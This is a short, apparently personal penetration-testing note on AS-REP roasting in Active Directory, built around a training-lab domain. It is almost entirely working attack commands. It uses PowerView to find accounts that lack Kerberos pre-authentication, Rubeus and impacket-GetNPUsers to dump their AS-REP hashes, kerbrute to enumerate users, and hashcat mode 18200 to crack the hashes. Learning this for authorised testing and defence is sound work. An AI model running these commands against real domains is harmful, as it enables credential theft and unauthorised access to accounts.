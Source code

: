 
possible to obtain the Ticket Granting Ticket (TGT) for any account that has the [Do not require Kerberos pre-authentication](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled

Checking if vulnerable
```powershell-session
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

retrieving as-rep
```powershell-session
.\Rubeus.exe asreproast /user:ygroce /nowrap /format:hashcat
```
get the as-rep hash and then crack the hash with [[Hashcat]] -m 18200

or kerbrute does this userenum and as-rep all together
```shell-session
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```

```shell-session
impacket-GetNPUsers INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
```
